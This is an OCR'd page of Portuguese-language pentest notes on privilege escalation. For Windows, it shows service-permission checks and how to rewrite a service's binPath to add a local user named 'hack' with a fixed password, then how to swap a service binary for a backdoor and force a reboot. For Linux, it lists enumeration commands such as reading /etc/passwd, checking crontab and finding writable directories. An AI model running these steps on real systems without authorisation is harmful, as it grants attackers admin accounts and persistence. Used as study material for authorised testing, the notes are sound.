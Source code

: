 
**bypass para o caso de podermos alterar o binpath**
exibe as permissões do usuário atual para um determinador serviço
```
icacls PATH_TO_.EXE

icacls C:\Windows\System32\cmd.exe

sc query [SERVICE_NAME]
sc qc [SERVICE_NAME]
```

alterando o pathbin para executar comando
```
sc config [SERVICE_NAME] binPath="net user hack Admin@123 /add"

sc stop [SERVICE_NAME]
sc start [SERVICE_NAME]
```


**bypass para o caso de conseguirmos substituir o serviço**
basta substituir o arquivo .exe por uma backdoor

se o serviço for auto-start precisaremos reiniciar a máquina para executarmos a nossa backdoor
```
shutdown /r /t 0
```



## linux
enumeração de usuários e serviços
```
cat /etc/passwd
```
exibe o nome da maquina
```
hostname
```
versão do kernel e do sistema operacional
```
uname -a
cat /etc/issue
cat /etc/*-release
```
exibe a versão de um serviço
```
dpkg -l | grep wget 
```
configuração de rede/portas
```
ifconfig -a
route

netstat -nlpt # portas TCP abertas
netstat -nlpu # portas UDP abertas
```
processos em execução
```
ps aux
```
agendamento de tarefas automatizadas no crontab
```
cat /etc/crontab
```
buscar por diretórios que tenho permissão de escrita
```
find / -writable -type d 2>/dev/null
find / -type d \( -perm -u=w -o -perm -g=w \) -user $(whoami) 2>/dev/null
```